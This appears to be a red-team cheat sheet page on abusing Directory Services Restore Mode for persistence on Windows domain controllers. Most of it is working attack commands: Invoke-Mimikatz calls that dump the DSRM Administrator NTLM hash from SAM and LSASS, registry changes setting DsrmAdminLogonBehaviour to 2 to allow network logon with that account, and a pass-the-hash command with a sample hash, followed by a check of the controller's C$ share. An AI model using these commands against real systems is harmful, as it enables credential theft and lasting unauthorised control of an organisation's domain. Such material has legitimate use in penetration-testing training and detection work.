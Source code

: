 # DSRM

Directory Services Restore Mode (DSRM) is a Safe Mode boot option for Windows Server domain controllers and the main purpose of DSRM is to help system admins log in to the system to restore or repair an AD database.\
\
Every Domain controller has local administrator account called "Administrator" and his password is the DSRM password.



## Dump DSRM NTLM hash

{% hint style="info" %}
Require Domain Admin privileges
{% endhint %}

<pre class="language-powershell"><code class="lang-powershell"><strong># dumping from sam - DSRM local Administrator hash
</strong><strong>Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' 
</strong></code></pre>

```powershell
# dumping from lsass - Administrator hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```



## Change Logon Behavior

In order to use DSRM account hash we need to change his registry key

<pre class="language-powershell"><code class="lang-powershell"><strong># Entering DC session
</strong><strong>Enter-PSSession -ComputerName dcorp-dc
</strong><strong>
</strong># Check if key exists
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour'

# If exists set his value to 2
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -Verbose

# If does not exist create it and set his value to 2
New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -PropertyType DWORD -Verbose
</code></pre>



## Passing the hash

```powershell
# /domain - the domain controller
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator
/ntlm:a102ad5753f4c441e3af31c97fad86fd 
/run:powershell.exe"'


# Check if worked
ls \\dcorp-dc\C$
```

